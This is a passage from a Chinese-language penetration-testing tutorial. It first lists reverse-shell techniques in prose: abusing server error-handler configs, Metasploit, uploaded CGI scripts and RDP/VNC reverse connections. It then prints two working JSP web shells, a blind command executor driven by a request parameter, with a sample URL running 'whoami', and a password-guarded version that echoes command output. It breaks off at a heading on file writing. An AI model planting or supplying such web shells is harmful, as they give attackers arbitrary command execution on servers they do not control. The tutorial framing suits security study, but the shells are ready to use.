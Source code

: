 例如，某些Web服务器允许在配置文件中指定错误处理脚本。攻击者可以修改这些配置文件，使其在发生错误时执行反弹shell命令。

**注意**：这种方法需要攻击者具有修改目标系统服务或守护进程配置的权限。

### 25. 利用目标系统的漏洞利用工具集

许多漏洞利用工具集（如Metasploit Framework）提供了自动化的反弹shell功能。攻击者可以使用这些工具集来利用目标系统的已知漏洞，并自动执行反弹shell命令。

**注意**：使用漏洞利用工具集需要攻击者对目标系统的漏洞有深入的了解，并且需要确保所使用的工具集是最新且安全的。

### 26. 使用目标系统的内置脚本语言（如Python、Perl等）的Web接口

如果目标系统提供了内置脚本语言（如Python、Perl等）的Web接口（如CGI、FastCGI等），攻击者可能可以利用这些接口来执行反弹shell命令。

例如，攻击者可以上传一个包含反弹shell代码的CGI脚本，并通过Web浏览器访问该脚本来触发反弹shell。

**注意**：这种方法需要攻击者能够上传并执行Web脚本，并且目标系统需要允许这些脚本语言的Web接口。

### 27. 利用目标系统的远程桌面协议（如RDP、VNC等）的反向连接功能

某些远程桌面协议（如RDP、VNC等）允许反向连接，即目标系统主动连接到攻击者的机器。攻击者可以配置这些协议以使用反向连接模式，并在目标系统上启动远程桌面客户端来建立连接。

**注意**：这种方法需要攻击者具有在目标系统上启动远程桌面客户端的权限，并且目标系统需要支持反向连接功能。

**反弹shell是渗透测试中不可或缺的技术之一，允许攻击者获得对目标系统的交互式访问权限，网络安全从业者需要掌握且擅长，能根据不同的场景来使用不同的反弹shell姿势。**



### 一、无回显的命令执行（命令执行后不会在前端页面返回数据）


```
<%Runtime.getRuntime().exec(request.getParameter("i"));%>

请求url：http://127.0.0.1/shell.jsp?i=whoami
```


### 二、有回显带密码的命令执行（命令执行后会在前端返回数据）

```
<%
    if("023".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
```

### 三、文件写入（改写目标服务器里的文件,若文件不存在则创建）

